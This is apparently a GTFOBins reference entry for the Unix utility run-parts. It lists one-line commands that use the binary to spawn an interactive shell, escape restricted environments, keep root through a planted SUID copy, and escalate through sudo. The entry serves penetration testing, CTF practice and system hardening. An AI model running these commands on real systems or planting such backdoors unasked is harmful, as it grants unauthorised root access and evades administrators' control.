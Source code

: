# GTFOBin: run-parts

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
run-parts --new-session --regex '^sh$' /bin
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which run-parts) .

./run-parts --new-session --regex '^sh$' /bin --arg='-p'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo run-parts --new-session --regex '^sh$' /bin
```